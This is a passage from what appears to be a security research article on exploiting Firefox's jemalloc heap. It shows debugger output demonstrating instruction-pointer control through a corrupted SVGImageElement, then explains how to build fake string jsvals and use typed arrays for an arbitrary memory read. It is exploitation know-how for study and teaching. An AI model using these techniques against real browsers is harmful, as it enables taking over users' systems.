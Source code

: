               [    index 28   ] [   index 29    ]
    15b113f0  45464645 ffffff81 47484847 ffffff81

              [    index 30   ] [   index 31    ]
    15b11400  15b11210 41424344 1a590ea0 00000000

    15b11410  11bfc830 00000000 00020008 00000000

                                [   index 35    ]
    15b11420  00000000 00000000 15b11400 00000000
    15b11430  00000007 00000000 00090000 00000000
    ...
    15b114e0  e4000201 00000000 00000000 e4010301
    15b114f0  06000106 00000001 00000000 e5e50000

    0:000> g
    [*] calling a method of the corrupted SVGImageElement object

    (1084.a60): Access violation - code c0000005 (first chance)
    First chance exceptions are reported before any exception handling.
    This exception may be expected and handled.
    
    eax=15b11210 ebx=00000001 ecx=15b11400 edx=00000006 esi=1160b8b0
    edi=15b11400 eip=41424344 esp=0032d2f0 ebp=0032d520 iopl=0
    nv up ei pl zr na pe nc
    cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b  efl=00010246
    
    41424344 je  41424346                                         [br=1]

We have EIP control, know the base of xul.dll, and can place arbitrary
content on the heap at known addresses, therefore it is quite simple at
this point to ROP our way to whatever makes us happy. See the file
'svg-eip-control.html' for the complete code.

----[ 5.5 - Arbitrary memory leak

Although we have achieved total control over the Firefox process, let's
look at something that requires more fine-grained control over the jemalloc
heap. To demonstrate how jemalloc can be manipulated in detail, I will be
describing how we can achieve the ability to read any number of bytes from
any address we choose, i.e. an arbitrary memory leak.

For this purpose I will be using a constructed (i.e. fake) non-inline
string. In order to be able to read back from this fake string, I will
also need to create a fake string-type jsval that points to the fake
non-inline string, and index this jsval via the corrupted ArrayObject. The
problem with this approach is that the corrupted ArrayObject cannot be used
to write a fake string-type jsval (or any other jsval); remember that
there is no IEEE-754 64-bit double that corresponds to a 32-bit encoded
value greater than 0xFFF00000. This is required since in order to create a
fake jsval string we need to write ffffff85 as its tag value (see the
discussion on strings in section 2.1 if you are confused at this point).

So, we need to find another way to construct a fake string-type jsval in
controlled memory. What we can use is the reliability and the LIFO
operation of jemalloc to create a more complex heap arrangement that will
help us solve this problem. Specifically, I will add typed arrays to the
methodology to utilize their fully controlled content. Although, as we have
seen, I cannot place the metadata of a typed array in memory reachable by
user-controlled data, the actual data of a typed array (which are
controlled to byte granularity) can be placed on jemalloc runs.
